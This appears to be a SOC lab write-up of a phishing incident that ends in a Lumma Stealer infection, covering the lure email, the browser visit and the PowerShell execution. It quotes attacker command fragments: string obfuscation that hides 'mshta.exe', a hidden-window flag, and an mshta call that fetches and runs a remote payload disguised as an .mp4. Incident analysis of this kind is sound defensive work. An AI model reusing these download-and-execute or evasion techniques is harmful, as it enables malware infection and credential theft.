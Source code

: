 ### 2. Reconstructing the Attack Chain

The investigation revealed a clear, step-by-step attack chain from email to execution.

**Stage 1: The Phishing Lure**
The attack began with a phishing email with the subject "Upgrade your system to Windows 11 Pro for FREE." The `Device Action: Allowed` confirms it was successfully delivered to the user `Dylan`.
<img width="1477" height="641" alt="image" src="https://github.com/user-attachments/assets/95c02329-25f0-4cc5-b886-5c2c24f205a4" />

**Stage 2: User Clicks and Navigates to Malicious Site**
Endpoint security logs confirm the user fell for the phish. The browser history shows that `chrome.exe` navigated to the malicious phishing site `www[.]windows-update[.]site`.
<img width="1518" height="715" alt="image" src="https://github.com/user-attachments/assets/038fa69c-e0dc-4d74-86ed-8815aab7c47d" />

**Stage 3: Malicious PowerShell Execution (LOLBin Attack)**
Within seconds of visiting the site, the endpoint logs show multiple `PowerShell.exe` processes being executed. This is the "smoking gun," proving the user followed the "click fix" instructions and ran the attacker's code.

<img width="1492" height="621" alt="image" src="https://github.com/user-attachments/assets/ca4ba5ec-a2fa-463c-9dae-3f3014d7ee96" />

The commands are designed to download and run a payload using `mshta.exe`, a legitimate Windows binary (a LOLBin). The attacker uses several variations to evade detection:
*   **Obfuscated Command:** `('ms]]]ht]]]a]]].]]]exe ...' -replace ']')` - This breaks up the string "mshta.exe" with extra characters that are then removed by the `-replace` operator. This is designed to fool simple signature-based security tools.
*   **Hidden Window:** The `-w 1` parameter is used to run the PowerShell window in a hidden state so it is not visible to the user.
*   **The Payload:** The ultimate goal of all commands is to execute `mshta.exe https://overcoatpassably.shop/.../maloy.mp4`. The `.mp4` file is not a video; it is a malicious script (likely VBScript or JScript) disguised with a benign extension to bypass content filters. This script is the Lumma Stealer payload.

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR, Email Security Gateway
*   **Skills Demonstrated:** Phishing Analysis, Social Engineering Triage, PowerShell Deobfuscation, LOLBin Technique Recognition (mshta.exe), Attack Chain Reconstruction.

## Playbook Solution: Incident Classification

*   **Is Traffic Malicious?** **Yes.** The activity involves a phishing site and the execution of obfuscated, malicious PowerShell commands.
*   **What Is The Attack Type?** **Phishing / Malware Infection.**
*   **Was the Attack Successful?** **Yes.** The user clicked the link and executed the malicious PowerShell, compromising the host.
*   **Do You Need Tier 2 Escalation?** **Yes.** A successful infostealer infection is a critical incident that requires full IR.
*   **Incident Classification:** **True Positive.**

## Conclusion and Recommendations
